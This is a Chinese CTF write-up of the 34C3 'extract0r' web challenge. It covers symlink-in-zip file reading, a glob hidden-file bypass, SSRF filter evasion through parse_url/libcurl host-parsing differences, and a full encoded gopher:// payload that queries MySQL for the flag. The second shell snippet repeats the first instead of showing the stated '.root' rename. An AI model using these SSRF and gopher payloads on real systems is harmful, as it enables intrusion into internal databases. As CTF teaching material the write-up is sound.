


# 34c3-2017-extract0r

## 解压
首先题目会对我们提供的 URL 进行一些校验然后访问，并进行解压。因此可以借助压缩文件可以包含链接文件的特性来进行列目录或读取文件的操作。

尝试列目录，在 VPS 上生成 payload，另外需要注意我们提供的 URL 必须是域名，题目会过滤掉 URL 中的数字，意味着不能通过 IP 访问

```shell
ln -s / root
zip -y 1.zip root
```

提交请求后，页面返回了 ` we have deleted some folders from your archive for security reasons with our cyber-enabled filtering system!`

点击 cyber-enabled filtering system 给出如下代码：
```php
function verify($directory) {
    $files = glob($directory . '/*'); 
    foreach($files as $file) {
        if (!is_file($file)) {
            unlink($file);
            @rmdir($file);
        }
    }
}
```

题目会移除所有不是文件的的东西，比如目录。因此可通过 `ln -s /var/www/html/index.php` 之类读文件，但无法列目录。

但在 http://php.net/manual/en/function.glob.php 中可以看到：



glob 函数不会列出隐藏文件，借此特性便能绕过 filter 列目录，简单的将 root 重命名为 .root 即可

```shell
ln -s / root
zip -y 1.zip root
```

成功列目录



然后在 `/home/extract0r` 可以找到 `create_a_backup_of_my_supersecret_flag.sh`，其中发现 flag 在数据库中，且创建了一个空密码的用户

## SSRF bpass
知道 flag 在数据库，又存在能向提供的 URL 发出请求的功能，明显存在 SSRF

在 url.php 中可以看到发出请求的函数

```php

function clean_parts($parts) {
    // oranges are not welcome here
    $blacklisted = "/[ \x08\x09\x0a\x0b\x0c\x0d\x0e:\d]/";

    if (array_key_exists("scheme", $parts)) {
        $parts["scheme"] = preg_replace($blacklisted, "", $parts["scheme"]);
    }

    if (array_key_exists("user", $parts)) {
        $parts["user"] = preg_replace($blacklisted, "", $parts["user"]);
    }

    if (array_key_exists("pass", $parts)) {
        $parts["pass"] = preg_replace($blacklisted, "", $parts["pass"]);
    }

    if (array_key_exists("host", $parts)) {
        $parts["host"] = preg_replace($blacklisted, "", $parts["host"]);
    }

    return $parts;
}

function get_contents($url) {
    $disallowed_cidrs = [ "127.0.0.0/8", "169.254.0.0/16", "0.0.0.0/8",
        "10.0.0.0/8", "192.168.0.0/16", "14.0.0.0/8", "24.0.0.0/8", 
        "172.16.0.0/12", "191.255.0.0/16", "192.0.0.0/24", "192.88.99.0/24",
        "255.255.255.255/32", "240.0.0.0/4", "224.0.0.0/4", "203.0.113.0/24", 
        "198.51.100.0/24", "198.18.0.0/15",  "192.0.2.0/24", "100.64.0.0/10" ];

    for ($i = 0; $i < 5; $i++) {
        $url_parts = clean_parts(parse_url($url));

        if (!$url_parts) {
            error("Couldn't parse your url!");
        }

        if (!array_key_exists("scheme", $url_parts)) {
            error("There was no scheme in your url!");
        }

        if (!array_key_exists("host", $url_parts)) {
            error("There was no host in your url!");
        }

        $port = get_port($url_parts);
        $host = $url_parts["host"];

        $ip = gethostbynamel($host)[0];
        if (!filter_var($ip, FILTER_VALIDATE_IP,
            FILTER_FLAG_IPV4|FILTER_FLAG_NO_PRIV_RANGE|FILTER_FLAG_NO_RES_RANGE)) {
            error("Couldn't resolve your host '{$host}' or
                the resolved ip '{$ip}' is blacklisted!");
        }

        foreach ($disallowed_cidrs as $cidr) {
            if (in_cidr($cidr, $ip)) {
                error("That IP is in a blacklisted range ({$cidr})!");
            }
        }

        // all good, rebuild url now
        $url = rebuild_url($url_parts);


        $curl = curl_init();
        curl_setopt($curl, CURLOPT_URL, $url);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
        curl_setopt($curl, CURLOPT_TIMEOUT, 3);
        curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, 3);
        curl_setopt($curl, CURLOPT_RESOLVE, array($host . ":" . $port . ":" . $ip)); //加一条缓存，防止dns rebinding
        curl_setopt($curl, CURLOPT_PORT, $port);

        ...
    }
}
```

代码逻辑：
1. 使用 `parse_url` 来解析提供的 URL 为 host, scheme, port, path 等部分
2. 对每一部分进行过滤
3. 解析 host 并检查是否在黑名单内
4. 重新构建 URL
5. 使用 `libcurl` 发送请求


这里的官方标准解法是使用 ipv6 表示法来表示域名，核心是**利用 `parse_url` 和 `libcurl` 发包针对 host 解析时的差异**。

```
http://foo@[abcbcb.cf]@google.com:3306/
```

`parse_url` 解析 host 为 google.com
`libcurl` 解析为 [abcbcb.cf]

在 rfc3986 中对 host 的定义为

> host = IP-literal / IPv4address / reg-name
...
A host identified by an Internet Protocol literal address, version 6 or later, is distinguished by enclosing the IP literal within square brackets ("[" and "]"). This is the only place where square bracket characters are allowed in the URI syntax.
IP-literal = "[" ( IPv6address / IPvFuture  ) "]"

即 [ip] 是一种 host 的形式，libcurl 在解析时候认为 [] 包裹的是 host。

由于 host 会过滤数字，因此提交的 url 只能包含十六进制中剩下的 a-f。 而 .cf 域名是免费的，因此可以注册一个 abcbcb.cf 解析为 127.0.0.1

然而此处还存在一个预期外的解

```
http://foo@localhost:foo@google.com:3306/
```

`parse_url` 匹配最后一个 @ 后面符合格式的 host，因此将 google.com 解析为 host；而 `libcurl` 匹配第一个 @ 后面符合格式的 host，因而将 localhost 解析为 host

> 注：本环境 curl 版本为 7.47，无法成功利用，需要更高的版本才能利用该方法

## SSRF 攻击 MySQL
绕过了 SSRF 对 localhost 的限制，即可直接攻击 MySQL，但由于 curl 返回的数据需要能被解压，因此需要把查出来的数据构造为压缩格式。

使用 `m4st3r_ov3rl0rd` 登录，然后执行 `use flag;select flag from flag;` 获得 flag

有了 flag 接下来需要将其变为压缩格式

```python
flag_dummy = b"B"*100

payload = zip_tools.create_zip(b"gimme_flag", flag_dummy)

prefix = bytes(payload.split(flag_dummy)[0])
suffix = bytes(payload.split(flag_dummy)[1])


sql_cmd = b"select concat(cast(0x" + hexlify(prefix) + b" as binary), rpad(flag, 100, 'A'), cast(0x" + hexlify(suffix) + b" as binary)) from flag.flag-- -"
```

上面的 PoC 先创建一个 zip 文件，并填充有字符串 100*"B"。在这个基础上，利用我们的 SQL 查询出来的 flag 替换掉这个字符串。最终 select 出来即为 zip 文件。（7z 即使文件 CRC 校验错误，部分字段异常，也能成功解压）


使用 [exp](exploit.py) 生成最终 payload：

```
gopher://foo@[abcbcb.cf]@yolo.com:3306/A%48%00%00%01%85%a6%3f%20%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6d%34%73%74%33%72%5f%6f%76%33%72%6c%30%72%64%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%00%4c%01%00%00%03%73%65%6c%65%63%74%20%63%6f%6e%63%61%74%28%63%61%73%74%28%30%78%35%30%34%62%30%33%30%34%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%20%61%73%20%62%69%6e%61%72%79%29%2c%20%72%70%61%64%28%66%6c%61%67%2c%20%31%30%30%2c%20%27%41%27%29%2c%20%63%61%73%74%28%30%78%35%30%34%62%30%31%30%32%31%65%30%33%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%35%30%34%62%30%35%30%36%30%30%30%30%30%30%30%30%30%31%30%30%30%31%30%30%33%38%30%30%30%30%30%30%38%63%30%30%30%30%30%30%30%30%30%30%20%61%73%20%62%69%6e%61%72%79%29%29%20%66%72%6f%6d%20%66%6c%61%67%2e%66%6c%61%67%2d%2d%20%2d%46%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%42%41%52
```

## References
[extract0r - web - medium](https://github.com/eboda/34c3ctf/tree/master/extract0r)

[从一道CTF题目看Gopher攻击MySql](https://www.freebuf.com/articles/web/159342.html)

[34c3 web extract0r!](https://www.jianshu.com/p/ef6cf8665a64)